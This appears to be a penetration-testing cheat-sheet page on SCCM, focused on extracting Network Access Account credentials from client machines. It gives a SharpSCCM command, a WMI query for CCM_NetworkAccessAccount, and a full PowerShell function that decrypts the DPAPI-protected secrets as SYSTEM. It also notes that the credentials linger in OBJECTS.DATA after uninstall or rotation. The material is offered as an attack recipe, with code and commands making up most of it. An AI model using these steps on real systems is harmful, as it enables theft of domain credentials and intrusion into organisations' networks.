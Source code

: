 # SCCM
 - SharpSCCM: https://github.com/Mayyhem/SharpSCCM    
 
 ## Network Access Account
 Active Directory domain accounts used by systems that are not joined to AD.   
 SCCM deploys a so called "Network Access Account" to the workstations, which is used to access network shares. Pushed to every SCCM client in machine policy   
 Credentials are stored locally on clients as DPAPI blobs protected by the system's masterkey   
 - Retrievable via WMI as a privileged user
 - Remain in CIM repository (C:\Windows\System32\Wbem\Repository\OBJECTS.DATA) **after client is uninstalled or account rotation**

### NAA Creds
Retrieve and decrypt Network Access Account domain credentials from an SCCM client:   
`SharpSCCM.exe local naa wmi`   
WMI Query:   
`select * from CCM_NetworkAccessAccount`   

**Decrypt Credentials**   
The credentials can be extracted over DPAPI calls with the NT/SYSTEM user.   

```
# Source: https://github.com/rzander/sccmclictrlib/blob/46640553235664bf2da45dc7f6e1f09628a497b0/sccmclictr.automation/Properties/Resources.resx
function UnProtect-PolicySecret {
<#
    .SYNOPSIS
    Decrypts policy secrets (c) 2016 by Mattias Benninge
 
    .DESCRIPTION
    The UnProtect-PolicySecret CmdLet takes a encrypted string and returnsthe decrypted sting.
     
    .NOTES
    This function must be run under the local system account on the computer that encrypted the data.
   
    .EXAMPLE
    UnProtect-PolicySecret -data "F600000001000000D08C9DDF0115D1118C7A00C04FC297EB010000006AF233F693"
 
    .PARAMETER Data
    [String] Encrypted data
#>
 
    [CmdletBinding()]
    PARAM (
        [Parameter(Position=0,Mandatory=$true,HelpMessage="Encrypted sting",ValueFromPipeline=$true)][Alias("Data")][String] $strData
    )
                              
    # Chop string up into bytes, and drop the first 4 bytes
    [System.Byte[]]$byteData = New-Object System.Byte[] $($strData.length / 2 - 4)
    for ($i = 0; $i -lt (($strData.length / 2) - 4); $i++)
    {
        $byteData[$i] = [System.Convert]::ToByte($strData.substring(($i + 4) * 2, 2),16)
    }
 
    #Add the security type assembly
    Add-Type -AssemblyName System.Security
             
    #Decrypt the data
    $bytePlainText = [System.Security.Cryptography.ProtectedData]::Unprotect($byteData , $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
    return $([System.Text.UnicodeEncoding]::Unicode.GetString($bytePlainText))
}
```
